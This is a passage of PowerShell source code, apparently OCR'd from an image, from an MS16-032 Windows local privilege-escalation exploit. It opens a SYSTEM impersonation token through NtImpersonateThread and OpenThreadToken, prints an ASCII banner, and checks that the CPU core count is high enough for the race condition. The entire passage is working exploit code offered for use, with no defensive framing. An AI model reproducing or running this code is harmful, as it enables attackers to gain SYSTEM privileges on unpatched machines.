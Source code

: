 		echo "[>] Building SYSTEM impersonation token"
		# SecurityQualityOfService struct
		$SQOS = New-Object SQOS
		$SQOS.ImpersonationLevel = 2 #SecurityImpersonation
		$SQOS.Length = [System.Runtime.InteropServices.Marshal]::SizeOf($SQOS)
		# Undocumented API's, I like your style Microsoft ;)
		$CallResult = [Ntdll]::NtImpersonateThread($hThread, $hThread, [ref]$sqos)
		if ($CallResult -ne 0) {
			echo "[!] NtImpersonateThread failed, exiting.."
			$CallResult = [Kernel32]::ResumeThread($hThread)
			echo "[+] Thread resumed!"
			Return
		}
		
		# Null $SysTokenHandle
		$script:SysTokenHandle = [IntPtr]::Zero

		# 0x0006 --> TOKEN_DUPLICATE -bor TOKEN_IMPERSONATE
		$CallResult = [Advapi32]::OpenThreadToken($hThread, 0x0006, $false, [ref]$SysTokenHandle)
		if (!$CallResult) {
			echo "[!] OpenThreadToken failed, exiting.."
			$CallResult = [Kernel32]::ResumeThread($hThread)
			echo "[+] Thread resumed!"
			Return
		}
		
		echo "[?] Success, open SYSTEM token handle: $SysTokenHandle"
		echo "[+] Resuming thread.."
		$CallResult = [Kernel32]::ResumeThread($hThread)
	}
	
	# main() <--- ;)
	$ms16032 = @"
	 __ __ ___ ___   ___     ___ ___ ___ 
	|  V  |  _|_  | |  _|___|   |_  |_  |
	|     |_  |_| |_| . |___| | |_  |  _|
	|_|_|_|___|_____|___|   |___|___|___|
	                                    
	               [by Jens Lindström ]
"@
	
	$ms16032
	
	# Check logical processor count, race condition requires 2+
	echo "`n[?] Operating system core count: $([System.Environment]::ProcessorCount)"
	if ($([System.Environment]::ProcessorCount) -lt 2) {
		echo "[!] Race condition requires at least 2 CPU cores, exiting!`n"
		Return
	}
	